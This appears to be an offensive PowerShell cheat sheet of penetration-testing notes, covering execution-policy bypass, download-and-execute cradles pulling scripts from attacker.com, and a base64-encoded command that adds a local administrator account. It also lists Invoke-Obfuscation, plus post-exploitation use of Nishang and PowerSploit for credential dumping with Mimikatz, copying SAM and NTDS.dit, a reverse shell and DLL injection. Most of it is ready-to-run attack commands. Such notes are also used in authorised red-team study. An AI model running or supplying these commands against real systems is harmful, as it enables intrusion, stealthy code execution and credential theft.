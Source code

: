## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
     * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
     * `Get-Information`
     * `Get-PassHints` - dump Password Hints used on the system
     * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
     * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
     * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
     * `Invoke-AllChecks`
  * __Code Execution__ - `Import-Module CodeExecution`
     * `Invoke-DLLInjection`
        - find a processes to inject DLL: `ps | ? {$_.ProcessesName -match "notepad"}`
        - Use PID from above in `Invoke-DLLInjection -ProcessID <PID> <DLL-location>`
* __PSGetSystem__ - https://github.com/decoder-it/psgetsystem
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

